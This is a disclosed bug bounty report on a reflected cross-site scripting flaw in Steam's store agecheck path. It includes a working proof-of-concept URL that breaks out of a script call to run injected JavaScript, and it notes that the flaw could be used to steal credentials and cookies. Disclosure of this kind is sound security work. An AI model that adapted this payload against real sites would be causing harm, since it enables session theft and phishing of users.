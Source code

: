 # XSS @ store.steampowered.com via agecheck path name

## Report Details
- **Report ID**: 406704
- **URL**: https://hackerone.com/reports/406704
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2018-09-07T09:15:52.056Z
- **Disclosed**: 2019-01-07T20:11:49.328Z

## Reporter
- **Username**: tvmpt
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: valve

## Vulnerability Information
Hi,

I found a Cross-Site Scripting (XSS) in store.steampowered.com because the path after /agecheck/ is not sanitized as it should.

```
https://store.steampowered.com/agecheck/appmhuh2',{ sessionid: g_sessionID, ageDay: '', ageMonth: '', ageYear: '' } ).done( function( response ) { }%20 );}alert`XSS-by-TvM`;function x(){$J.post('mr2n2/247660/
```

Open this^ link, and XSS will be executed! Tested on FF 61.0.2

Looking forward!

Best regards,
Pedro

## Impact

A cross-site scripting vulnerability allows an attacker to modify the page. The attacker can inject forms to steal usernames, passwords, cookies,etc. In short, XSS opens the doors to plenty of phishing techniques.

## Attachments
- store.steampowered.com_agecheck_url.mp4
